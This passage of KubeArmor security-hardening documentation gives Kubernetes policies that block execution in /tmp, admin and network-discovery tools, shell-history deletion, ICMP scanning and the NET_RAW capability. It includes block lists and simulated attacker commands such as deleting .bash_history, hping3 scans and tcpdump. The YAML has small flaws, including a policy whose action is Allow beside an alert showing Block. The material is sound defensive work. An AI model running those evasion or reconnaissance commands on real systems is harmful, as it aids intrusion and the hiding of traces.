In an attack scenario, a hacker may attempt to inject malicious scripts into the /tmp folder through a web application exploit. Once the script is uploaded, the attacker may try to execute it on the server in order to take it down. By hardening the /tmp folder, the attacker will not be able to execute the script, preventing such attacks. It's essential to implement these security measures to protect against these types of attacks and ensure the safety of the system.<br /> **Attack Type** System Failure, System Breach<br /> **Actual Attack** Shields Health Care Group data breach, MOVEit Breach

### Compliance
- CIS Distribution Independent Linuxv2.0
- Control-Id: 1.1.5
- Control-Id: 1.1.10

## Policy
### /tmp/ noexec
```yaml
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: ksp-block-exec-inside-tmp
  namespace: wordpress-mysql
spec:
  tags:
  - CIS
  - CIS-control-1.1.5
  message: Alert! Execution attempted inside tmp folder
  selector:
    matchLabels:
      app: wordpress
  process:
    matchDirectories:
    - dir: /tmp/
      recursive: true
  action: Block
```
#### Simulation
```sh
root@wordpress-fb448db97-wj7n7:/var/tmp# ls /var/tmp                                                                    xvzf                                                                                                                    
root@wordpress-fb448db97-wj7n7:/var/tmp# /var/tmp/xvzf                                                                  
bash: /var/tmp/xvzf: Permission denied                                                                                  
root@wordpress-fb448db97-wj7n7:/var/tmp#  
```

#### Expected Alert
```
{
  "Action": "Block",
  "ClusterName": "d3mo",
  "ContainerID": "548176888fca6bb6d66633794f3d5f9d54930a9d9f43d4f05c11de821c758c0f",
  "ContainerImage": "docker.io/library/wordpress:4.8-apache@sha256:6216f64ab88fc51d311e38c7f69ca3f9aaba621492b4f1fa93ddf63093768845",
  "ContainerName": "wordpress",
  "Data": "syscall=SYS_OPEN flags=O_WRONLY|O_CREAT|O_EXCL|O_TRUNC",
  "Enforcer": "AppArmor",
  "HostName": "master-node",
  "HostPID": 30490,
  "HostPPID": 6119,
  "Labels": "app=wordpress",
  "Message": "Alert! Execution attempted inside /tmp",
  "NamespaceName": "wordpress-mysql",
  "Operation": "File",
  "Owner": {
    "Name": "wordpress",
    "Namespace": "wordpress-mysql",
    "Ref": "Deployment"
  },
  "PID": 193,
  "PPID": 6119,
  "ParentProcessName": "/var/lib/rancher/k3s/data/24a53467e274f21ca27cec302d5fbd58e7176daf0a47a2c9ce032ee877e0979a/bin/containerd-shim-runc-v2",
  "PodName": "wordpress-fb448db97-wj7n7",
  "PolicyName": "ksp-block-exec-inside-tmp",
  "ProcessName": "/bin/bash",
  "Resource": "/tmp/sh-thd-2512146865",
  "Result": "Permission denied",
  "Severity": "1",
  "Source": "/bin/bash",
  "Tags": "CIS,CIS_Linux",
  "Timestamp": 1696492433,
  "Type": "MatchedPolicy",
  "UpdatedTime": "2023-10-05T07:53:53.259403Z",
  "cluster_id": "2302",
  "component_name": "kubearmor",
  "instanceGroup": "0",
  "instanceID": "0",
  "tenant_id": "167",
  "workload": "1"
}
```

## References
[STIG no exec in /tmp](https://www.stigviewer.com/stig/red_hat_enterprise_linux_6/2016-12-16/finding/V-57569)<br />[The biggest ransomeware attacks in history](https://www.techtarget.com/searchsecurity/tip/The-biggest-ransomware-attacks-in-history)<br />[Shields Healthcare Group Data Breach](https://www.idstrong.com/sentinel/shields-healthcare-group-data-breach/)<br />



</details>


<details><summary><h2>Admin tools: Do not allow execution of administrative/maintenance tools inside the pods.</h2></summary>

### Description
Adversaries may abuse a container administration service to execute commands within a container. A container administration service such as the Docker daemon, the Kubernetes API server, or the kubelet may allow remote management of containers within an environment.

### Attack Scenario
It's important to note that attackers with permissions could potentially run 'kubectl exec' to execute malicious code and compromise resources within a cluster. It's crucial to monitor the activity within the cluster and take proactive measures to prevent these attacks from occurring.<br /> **Attack Type** Command Injection, Lateral Movements, etc.<br /> **Actual Attack** Target cyberattack, Supply Chain Attacks

### Compliance
- NIST_800-53_AU-2
- MITRE_T1609_container_administration_command
- NIST_800-53_SI-4

## Policy
### Admin tools
```yaml
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: harden-dvwa-web-k8s-client-tool-exec
  namespace: default
spec:
  action: Block
  message: Alert! k8s client tool executed inside container.
  process:
    matchPaths:
    - path: /usr/local/bin/kubectl
    - path: /usr/bin/kubectl
    - path: /usr/local/bin/docker
    - path: /usr/bin/docker
    - path: /usr/local/bin/crictl
    - path: /usr/bin/crictl
  selector:
    matchLabels:
      app: dvwa-web
      tier: frontend
  severity: 5
  tags:
  - MITRE_T1609_container_administration_command
  - MITRE_TA0002_execution
  - MITRE_T1610_deploy_container
  - MITRE
  - NIST_800-53
  - NIST_800-53_AU-2
  - NIST_800-53_SI-4
  - NIST
```
#### Simulation
```sh
kubectl exec -it dvwa-web-566855bc5b-4j4vl -- bash
root@dvwa-web-566855bc5b-4j4vl:/var/www/html# kubectl
bash: /usr/bin/kubectl: Permission denied
root@dvwa-web-566855bc5b-4j4vl:/var/www/html#
```

#### Expected Alert
```
{
  "ATags": null,
  "Action": "Block",
  "ClusterName": "aditya",
  "ContainerID": "32015ebeea9e1f4d4e7dbf6608c010ef2b34c48f1af11a5c6f0ea2fd27c6ba6c",
  "ContainerImage": "docker.io/cytopia/dvwa:php-8.1@sha256:f7a9d03b1dfcec55757cc39ca2470bdec1618b11c4a51052bb4f5f5e7d78ca39",
  "ContainerName": "dvwa",
  "Data": "syscall=SYS_EXECVE",
  "Enforcer": "AppArmor",
  "HashID": "1167b21433f2a4e78a4c6875bb34232e6a2b3c8535e885bb4f9e336fd2801d92",
  "HostName": "aditya",
  "HostPID": 38035,
  "HostPPID": 37878,
  "Labels": "tier=frontend,app=dvwa-web",
  "Message": "",
  "NamespaceName": "default",
  "Operation": "Process",
  "Owner": {
    "Name": "dvwa-web",
    "Namespace": "default",
    "Ref": "Deployment"
  },
  "PID": 554,
  "PPID": 548,
  "PodName": "dvwa-web-566855bc5b-4j4vl",
  "PolicyName": "DefaultPosture",
  "ProcessName": "/usr/bin/kubectl",
  "Resource": "/usr/bin/kubectl",
  "Result": "Permission denied",
  "Severity": "",
  "Source": "/bin/bash",
  "Tags": "",
  "Timestamp": 1696326880,
  "Type": "MatchedPolicy",
  "UID": 0,
  "UpdatedTime": "2023-10-03T09:54:40.056501Z",
  "cluster_id": "3896",
  "component_name": "kubearmor",
  "instanceGroup": "0",
  "instanceID": "0",
  "workload": "1"
}
```

## References
[MITRE ATT&CK execution in k8s](https://cloud.redhat.com/blog/protecting-kubernetes-against-mitre-attck-execution#:~:text='kubectl%20exec'%20allows%20a%20user,compromise%20resources%20within%20a%20cluster)<br />[Target Data Breach](https://www.idstrong.com/sentinel/that-one-time-target-lost-everything/)<br />



</details>


<details><summary><h2>Discovery tools: Do not allow discovery/search of tools/configuration.</h2></summary>

### Description
Adversaries may attempt to get a listing of services running on remote hosts and local network infrastructure devices, including those that may be vulnerable to remote software exploitation. Common methods to acquire this information include port and/or vulnerability scans using tools that are brought onto a system

### Attack Scenario
Adversaries can potentially use information related to services, remote hosts, and local network infrastructure devices, including those that may be vulnerable to remote software exploitation to perform malicious attacks like exploiting open ports and injecting payloads to get remote shells. It's crucial to take proactive measures to prevent these attacks from occurring, such as implementing proper network segmentation and hardening network devices.<br /> **Attack Type** Reconnaissance, Brute force, Command Injection<br /> **Actual Attack** Microsoft exchange server attack 2021

### Compliance
- CIS Distribution Independent Linuxv2.0
- Control-Id: 6.3

## Policy
### Discovery tools
```yaml
Version: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: harden-dvwa-web-network-service-scanning
  namespace: default
spec:
  action: Block
  message: Network service has been scanned!
  process:
    matchPaths:
    - path: /usr/bin/netstat
    - path: /bin/netstat
    - path: /usr/sbin/ip
    - path: /usr/bin/ip
    - path: /sbin/ip
    - path: /bin/ip
    - path: /usr/sbin/iw
    - path: /sbin/iw
    - path: /usr/sbin/ethtool
    - path: /sbin/ethtool
    - path: /usr/sbin/ifconfig
    - path: /sbin/ifconfig
    - path: /usr/sbin/arp
    - path: /sbin/arp
    - path: /usr/sbin/iwconfig
    - path: /sbin/iwconfig
  selector:
    matchLabels:
      app: dvwa-web
      tier: frontend
  severity: 5
  tags:
  - MITRE
  - FGT1046
  - CIS
```
#### Simulation
```sh
kubectl exec -it dvwa-web-566855bc5b-xtgwq -- bash
root@dvwa-web-566855bc5b-xtgwq:/var/www/html# netstat
bash: /bin/netstat: Permission denied
root@dvwa-web-566855bc5b-xtgwq:/var/www/html# ifconfig
bash: /sbin/ifconfig: Permission denied
root@dvwa-web-566855bc5b-xtgwq:/var/www/html#
root@dvwa-web-566855bc5b-xtgwq:/var/www/html# arp
bash: /usr/sbin/arp: Permission denied
```

#### Expected Alert
```
{
  "Action": "Block",
  "ClusterName": "no-trust",
  "ContainerID": "e8ac2e227d293e76ab81a34945b68f72a2618ed3275ac64bb6a82f9cd2d014f1",
  "ContainerImage": "docker.io/cytopia/dvwa:php-8.1@sha256:f7a9d03b1dfcec55757cc39ca2470bdec1618b11c4a51052bb4f5f5e7d78ca39",
  "ContainerName": "dvwa",
  "Data": "syscall=SYS_EXECVE",
  "Enforcer": "AppArmor",
  "HostName": "aditya",
  "HostPID": 35592,
  "HostPPID": 35557,
  "Labels": "tier=frontend,app=dvwa-web",
  "Message": "Network service has been scanned!",
  "NamespaceName": "default",
  "Operation": "Process",
  "Owner": {
    "Name": "dvwa-web",
    "Namespace": "default",
    "Ref": "Deployment"
  },
  "PID": 989,
  "PPID": 983,
  "ParentProcessName": "/bin/bash",
  "PodName": "dvwa-web-566855bc5b-npjn8",
  "PolicyName": "harden-dvwa-web-network-service-scanning",
  "ProcessName": "/bin/netstat",
  "Resource": "/bin/netstat",
  "Result": "Permission denied",
  "Severity": "5",
  "Source": "/bin/bash",
  "Tags": "MITRE,FGT1046,CIS",
  "Timestamp": 1696501152,
  "Type": "MatchedPolicy",
  "UpdatedTime": "2023-10-05T10:19:12.809606Z",
  "cluster_id": "4225",
  "component_name": "kubearmor",
  "instanceGroup": "0",
  "instanceID": "0",
  "tenant_id": "167",
  "workload": "1"
}
```

## References
[MITRE Network Service Discovery](https://attack.mitre.org/techniques/T1046/)<br />



</details>


<details><summary><h2>Logs delete: Do not allow external tooling to delete logs/traces of critical components.</h2></summary>

### Description
Adversaries may delete or modify artifacts generated within systems to remove evidence of their presence or hinder defenses. Various artifacts may be created by an adversary or something that can be attributed to an adversary’s actions. Typically these artifacts are used as defensive indicators related to monitored events, such as strings from downloaded files, logs that are generated from user actions, and other data analyzed by defenders. Location, format, and type of artifact (such as command or login history) are often specific to each platform. 

### Attack Scenario
It's important to note that removal of indicators related to intrusion activity may interfere with event collection, reporting, or other processes used to detect such activity. This can compromise the integrity of security solutions by causing notable events to go unreported. Additionally, this activity may impede forensic analysis and incident response, due to a lack of sufficient data to determine what occurred. It's crucial to ensure that all relevant indicators are properly monitored and reported to prevent such issues from occurring.<br /> **Attack Type** Integrity Threats, Data Manipulation **Actual Attack** NetWalker, Conti, DarkSide RaaS 

### Compliance
- CIS Distribution Independent Linuxv2.0
- Control-Id: 6.6
- Control-Id: 7.6.2
- Control-Id: 7.6.3
- NIST_800-53_CM-5

## Policy
### Logs delete
```yaml
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: harden-nginx-shell-history-mod
  namespace: default
spec:
  action: Block
  file:
    matchPaths:
    - fromSource:
      - path: /usr/bin/shred
      - path: /usr/bin/rm
      - path: /bin/mv
      - path: /bin/rm
      - path: /usr/bin/mv
      path: /root/*_history
    - fromSource:
      - path: /usr/bin/shred
      - path: /usr/bin/rm
      - path: /bin/rm
      - path: /bin/mv
      - path: /usr/bin/mv
      path: /home/*/*_history
  message: Alert! shell history modification or deletion detected and prevented
  process:
    matchPaths:
    - path: /usr/bin/shred
    - path: /usr/bin/rm
    - path: /bin/mv
    - path: /bin/rm
    - path: /usr/bin/mv
  selector:
    matchLabels:
      app: nginx
  severity: 5
  tags:
  - CIS
  - NIST_800-53
  - NIST_800-53_CM-5
  - NIST_800-53_AU-6(8)
  - MITRE_T1070_indicator_removal_on_host
  - MITRE
  - MITRE_T1036_masquerading
```
#### Simulation
```sh
kubectl exec -it nginx-77b4fdf86c-x7sdm -- bash
root@nginx-77b4fdf86c-x7sdm:/# rm ~/.bash_history
rm: cannot remove '/root/.bash_history': Permission denied
root@nginx-77b4fdf86c-x7sdm:/# rm ~/.bash_history
rm: cannot remove '/root/.bash_history': Permission denied
```

#### Expected Alert
```
{
  "Action": "Block",
  "ClusterName": "0-trust",
  "ContainerID": "20a6333c6a46e0da32b3062f0ba76e9aed4fc5ef51f5ee8aec5b980963cedea3",
  "ContainerImage": "docker.io/library/nginx:latest@sha256:32da30332506740a2f7c34d5dc70467b7f14ec67d912703568daff790ab3f755",
  "ContainerName": "nginx",
  "Data": "syscall=SYS_UNLINKAT flags=",
  "Enforcer": "AppArmor",
  "HostName": "aditya",
  "HostPID": 43917,
  "HostPPID": 43266,
  "Labels": "app=nginx",
  "NamespaceName": "default",
  "Operation": "File",
  "Owner": {
    "Name": "nginx",
    "Namespace": "default",
    "Ref": "Deployment"
  },
  "PID": 392,
  "PPID": 379,
  "ParentProcessName": "/usr/bin/bash",
  "PodName": "nginx-77b4fdf86c-x7sdm",
  "PolicyName": "DefaultPosture",
  "ProcessName": "/usr/bin/rm",
  "Resource": "/root/.bash_history",
  "Result": "Permission denied",
  "Source": "/usr/bin/rm /root/.bash_history",
  "Timestamp": 1696577978,
  "Type": "MatchedPolicy",
  "UpdatedTime": "2023-10-06T07:39:38.182538Z",
  "cluster_id": "4291",
  "component_name": "kubearmor",
  "instanceGroup": "0",
  "instanceID": "0",
  "tenant_id": "167",
  "workload": "1"
}
```

## References
[MITRE Indicator Removal](https://attack.mitre.org/techniques/T1070/)<br />



</details>


<details><summary><h2>ICMP control: Do not allow scanning tools to use ICMP for scanning the network.</h2></summary>

### Description
The Internet Control Message Protocol (ICMP) allows Internet hosts to notify each other of errors and allows diagnostics and troubleshooting for system administrators. Because ICMP can also be used by a potential adversary to perform reconnaissance against a target network, and due to historical denial-of-service bugs in broken implementations of ICMP, some network administrators block all ICMP traffic as a network hardening measure

### Attack Scenario
Adversaries may use scanning tools that utilize Internet Control Message Protocol (ICMP) to perform reconnaissance against a target network and identify potential loopholes. It's crucial to monitor network traffic and take proactive measures to prevent these attacks from occurring, such as implementing proper firewall rules and network segmentation. Additionally, it's important to stay up-to-date with the latest security patches to prevent known vulnerabilities from being exploited.<br /> **Attack Type** Network Flood, DoS(Denial of Service)<br /> **Actual Attack** Ping of Death(PoD)

### Compliance
- ICMP Control

## Policy
### ICMP Control
```yaml
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: restrict-scanning-tools
  namespace: default
spec:
  severity: 4
  selector:
    matchLabels:
      app: nginx
  network:
    matchProtocols:
    - protocol: icmp
      fromSource:
      - path: /usr/bin/ping
    - protocol: udp
      fromSource:
      - path: /usr/bin/ping
  action: Allow
  message: Scanning tool has been detected
```
#### Simulation
```sh
kubectl exec -it nginx-77b4fdf86c-x7sdm -- bash
root@nginx-77b4fdf86c-x7sdm:/# hping3 www.google.com
Unable to resolve 'www.google.com'
root@nginx-77b4fdf86c-x7sdm:/# hping3 127.0.0.1
Warning: Unable to guess the output interface
[get_if_name] socket(AF_INET, SOCK_DGRAM, 0): Permission denied
[main] no such device
root@nginx-77b4fdf86c-x7sdm:/# ping google.com
PING google.com (216.58.200.206) 56(84) bytes of data.
64 bytes from nrt12s12-in-f206.1e100.net (216.58.200.206): icmp_seq=1 ttl=109 time=51.9 ms
64 bytes from nrt12s12-in-f206.1e100.net (216.58.200.206): icmp_seq=2 ttl=109 time=60.1 ms
^C
--- google.com ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1002ms
rtt min/avg/max/mdev = 51.917/56.005/60.094/4.088 ms
```

#### Expected Alert
```
{
  "Action": "Block",
  "ClusterName": "0-trust",
  "ContainerID": "20a6333c6a46e0da32b3062f0ba76e9aed4fc5ef51f5ee8aec5b980963cedea3",
  "ContainerImage": "docker.io/library/nginx:latest@sha256:32da30332506740a2f7c34d5dc70467b7f14ec67d912703568daff790ab3f755",
  "ContainerName": "nginx",
  "Data": "syscall=SYS_SOCKET",
  "Enforcer": "AppArmor",
  "HostName": "aditya",
  "HostPID": 86904,
  "HostPPID": 86860,
  "Labels": "app=nginx",
  "NamespaceName": "default",
  "Operation": "Network",
  "Owner": {
    "Name": "nginx",
    "Namespace": "default",
    "Ref": "Deployment"
  },
  "PID": 1064,
  "PPID": 1058,
  "ParentProcessName": "/usr/bin/bash",
  "PodName": "nginx-77b4fdf86c-x7sdm",
  "PolicyName": "DefaultPosture",
  "ProcessName": "/usr/sbin/hping3",
  "Resource": "domain=AF_INET type=SOCK_DGRAM|SOCK_NONBLOCK|SOCK_CLOEXEC protocol=0",
  "Result": "Permission denied",
  "Source": "/usr/sbin/hping3 www.google.com",
  "Timestamp": 1696593032,
  "Type": "MatchedPolicy",
  "UpdatedTime": "2023-10-06T11:50:32.098937Z",
  "cluster_id": "4291",
  "component_name": "kubearmor",
  "instanceGroup": "0",
  "instanceID": "0",
  "tenant_id": "167",
  "workload": "1"
}
```





</details>


<details><summary><h2>Restrict Capabilities: Do not allow capabilities that can be leveraged by the attacker.</h2></summary>

### Description
Containers run with a default set of capabilities as assigned by the Container Runtime. Capabilities are parts of the rights generally granted on a Linux system to the root user. In many cases applications running in containers do not require any capabilities to operate, so from the perspective of the principal of least privilege use of capabilities should be minimized.

### Attack Scenario
Kubernetes by default connects all the containers running in the same node (even if they belong to different namespaces) down to Layer 2 (ethernet). Every pod running in the same node is going to be able to communicate with any other pod in the same node (independently of the namespace) at ethernet level (layer 2). This allows a malicious containers to perform an ARP spoofing attack to the containers on the same node and capture their traffic.<br /> **Attack Type** Reconnaissance, Spoofing<br /> **Actual Attack** Recon through P.A.S. Webshell, NBTscan

### Compliance
- CIS Kubernetes
- Control Id: 5.2.8 - Minimize the admission of containers with the NET_RAW capability
- Control Id: 5.2.9 - Minimize the admission of containers with capabilities assigned

## Policy
### Restrict Capabilities
```yaml
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: ksp-ubuntu-1-cap-net-raw-block
  namespace: multiubuntu
spec:
  severity: 1
  selector:
    matchLabels:
      container: ubuntu-1
  capabilities:
    matchCapabilities:
    - capability: net_raw
  action:
    Block
```
#### Simulation
```sh
root@ubuntu-1-deployment-f987bd4d6-xzcb8:/# tcpdump
tcpdump: eth0: You don't have permission to capture on that device
(socket: Operation not permitted)
root@ubuntu-1-deployment-f987bd4d6-xzcb8:/#    
```

#### Expected Alert
```
{
    "Action":"Block",
    "ClusterName":"k3sn0d3",
    "ContainerID":"aaf2118edcc20b3b04a0fae6164f957993bf3c047fd8cb33bc37ac7d0175e848",
    "ContainerImage":"docker.io/kubearmor/ubuntu-w-utils:0.1@sha256:b4693b003ed1fbf7f5ef2c8b9b3f96fd853c30e1b39549cf98bd772fbd99e260",
    "ContainerName":"ubuntu-1-container",
    "Data":"syscall=SYS_SOCKET",
    "Enforcer":"AppArmor",
    "HashID":"dd12f0f12a75b30d47c5815f93412f51b259b74ac0eccc9781b6843550f694a3",
    "HostName":"worker-node02",
    "HostPID":38077,
    "HostPPID":38065,
    "Labels":"container=ubuntu-1 group=group-1",
    "Message":"",
    "NamespaceName":"multiubuntu",
    "Operation":"Network",
    "Owner":{
        "Name":"ubuntu-1-deployment",
        "Namespace":"multiubuntu",
        "Ref":"Deployment"
    },
    "PID":124,
    "PPID":114,
    "PodName":"ubuntu-1-deployment-f987bd4d6-xzcb8",
    "PolicyName":"ksp-ubuntu-1-cap-net-raw-block",
    "ProcessName":"/usr/sbin/tcpdump",
    "Resource":"domain=AF_PACKET type=SOCK_RAW protocol=768",
    "Result":"Operation not permitted",
    "Severity":"1",
    "Source":"/usr/sbin/tcpdump",
    "Tags":"",
    "Timestamp":1705405378,
    "Type":"MatchedPolicy",
    "UID":0,
    "UpdatedTime":"2024-01-16T11:42:58.662928Z",
    "UpdatedTimeISO":"2024-01-16T11:42:58.662Z",
    "cluster_id":"16402",
    "component_name":"kubearmor",
    "instanceGroup":"0",
    "instanceID":"0",
    "workload":"1"
}
```

## References
[MITRE Network Service Discovery](https://attack.mitre.org/techniques/T1046/)<br />



</details>

<!-- (This is an auto-generated file. Do not edit manually.) -->


